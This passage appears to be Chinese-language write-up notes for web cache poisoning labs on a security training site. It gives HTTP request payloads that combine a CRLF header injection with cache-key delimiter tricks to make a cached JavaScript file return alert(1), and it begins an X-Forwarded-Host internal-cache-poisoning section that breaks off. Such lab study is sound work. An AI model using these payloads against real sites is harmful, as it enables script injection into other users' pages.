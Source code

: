 利用`/js/localize.js`里面的CRLF漏洞，配合`cors=1`和`Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)`

将返回的js变成`alert(1)`。

那构造payload:

```http
GET /js/localize.js?lang=en?utm_content=aaa&cors=1 HTTP/1.1
Origin: aaa%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$
```

```http
GET /login?lang=en?utm_content=aaa%26cors=1$$Origin=aaa%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)%23 HTTP/1.1
```

这个后面的`$`需要不断地查看缓存Key然后调整。

```
Pragma: x-get-cache-key
```

简单解释一下payload的逻辑：

1. 因为访问localize.js的那个路径会根据请求login的时候的lang的值改变，所以lang的值很重要
2. 而请求login的时候，`?`会被缓存当成分隔符，并且`utm_content`的值不计入缓存Key，所以`/login?lang=en?utm_content=xxxx`和`/login?lang=en`的Key是一样的，并且在解释http参数的值的时候，`/login?lang=en?utm_content=xxxx`lang的值是`en?utm_content=xxx`(这里`?`并不会作为分隔符)，所以达到了传递参数的作用。
3. `%23`是`#`，`#`后面的不计入缓存Key，而且在http请求里面，是锚，不会当成参数。
4. 上面解释了，第一个payload用CRLF构造了一个alert的返回，至于后面为什么要有`$$`：因为请求login之后（第二个payload），再次请求`localize.js`的时候，用查看Key的那个头去看的，有`$$`。
    猜测2个是咋来的：要`$$`作为Key的结尾。
5. 第一个payload的缓存Key和请求`/js/localize.js?lang=en?utm_content=aaa&cors=1$$Origin=aaa%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)`的Key是一样的。因为Origin要计入Key，但是分隔符是`$$`，这里手动加分隔符来达到效果。
6. 这里给出第一个payload的缓存Key:

```
/js/localize.js?lang=en?cors=1$$Origin=aaa%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$
```

7. 每一次请求的url会进行一个url解码。所以第一个payload需要一次编码，第二个需要两次编码。

## 13. Internal cache poisoning

注入用的头是：（注入`/`目录）

```
X-Forwarded-Host: acb91f681f9b808080262898016a0057.web-security-academy.net
```

其中内部缓存的只有`geolocate.js`。

因为前面两个js文件都随着注入的头有与没有一直在改变。

只有`geolocate.js`，当注入之后（多来几次），删除注入用的头依旧还有。

exploit的内容：
